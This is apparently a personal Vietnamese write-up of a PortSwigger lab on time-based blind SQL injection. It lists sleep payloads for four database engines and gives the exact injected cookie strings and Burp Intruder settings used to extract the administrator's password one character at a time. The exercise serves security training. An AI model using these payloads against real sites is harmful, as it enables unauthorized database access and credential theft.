 # [Lab: Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

Lỗ hổng: Blind SQLi, sử dụng time delays

- `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual; oracle`
- `SELECT 'b' FROM demo WHERE '1'='1' WAITFOR DELAY '0:0:10'; mssql`
- `select * from scientist WHERE (SELECT 'a' FROM pg_sleep(5))='a'; postgresql`
- `SELECT 'a' FROM Test WHERE (SELECT SLEEP(0))=1; MYSQL`

Đề bài: The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

1.  Tìm các câu lệnh kích hoạt time delay của từng loại db (ở trên), thử từng cái, phát hiện với lệnh time delay của postgresql khiến cho server response chậm:

- `TrackingId=9oqKfsnrmXYJzpMd'+AND+(SELECT+'a'+FROM+pg_sleep(10))%3d'a'--+;`

2.  Kiểm tra độ dài mật khẩu của admin, sử dụng intruder:

- payload position: `TrackingId=9oqKfsnrmXYJzpMd'%3b+SELECT+CASE+WHEN+(SELECT+LENGTH(password)+FROM+users+WHERE+username%3d'administrator')%3d'§§'+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--+;`
- payload: 1->30
- Vào tab column để hiển thị thêm cột `response received`, mặc định là không. Cột này hiển thị thời gian từ lúc gửi đến lúc nhận:
    ![aa779acc810efa366a39148ad0d191aa.png](../../../../../../_resources/aa779acc810efa366a39148ad0d191aa.png)
- start, Kết quả:
    ![e151c975ccbf725f14b00674e601d967.png](../../../../../../_resources/e151c975ccbf725f14b00674e601d967.png)
- Có nhiều thằng bị delay 10s, vấn đề ở chỗ:
    - nếu có một request khiến server bị time delay, những request đến sau đó cũng bị time delay theo (do server)
    - mặc định burpsuite intruder gửi nhiều request cùng lúc.
- Để giải quyết vấn đề này, chỉ gửi từng request thôi:
    - Vào `resource pool` để tạo pool mới có `maximum concurrent request` = 1
    - ![dcf1c7ad08092a2bb5598ebe25623cd1.png](../../../../../../_resources/dcf1c7ad08092a2bb5598ebe25623cd1.png)
- start, Kết quả thằng 20 có thời gian phản hồi cao >10000:
    ![e2e4f070cf780a4e1892c4489476ec9a.png](../../../../../../_resources/e2e4f070cf780a4e1892c4489476ec9a.png)
- => tìm được độ dài của mật khẩu là 20

3.  Tìm mật khẩu: dùng hàm SUBSTRING (trong postgresql) để lấy từng kí tự trong mật khẩu ra và so sánh với tất cả kí tự có thể và quan sát phản hồi.

- Dùng intruder với attack mode là Cluster bomb
- Payload position có ở 2 chỗ:

```
TrackingId=9oqKfsnrmXYJzpMd'%3b+SELECT+CASE+WHEN+(SELECT+SUBSTRING(password,§§,1)+FROM+users+WHERE+username%3d'administrator')%3d§§+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--+; 
```

- Payload gồm 2 set:
    - Set 1: số từ 1->20 (độ dài password tìm được ở bước 4) để truyền vào hàm SUBSTRING
    - Set 2: a->z, 1->9, giả sử mật khẩu chỉ bao gồm các kí tự này
- Chạy attack và highlight những response có thời gian phản hồi > 10000. Vào filter chọn chỉ hiển thị những items được highlighted.
- ![7ec2a6bb5e232b6c1c4dc1241afd5dcd.png](../../../../../../_resources/7ec2a6bb5e232b6c1c4dc1241afd5dcd.png)
- Ghép lần lượt các payload 2 theo thứ tự tăng dần của payload 1 => mật khẩu của admin

8.  Đăng nhập tài khoản admin => Lab Solved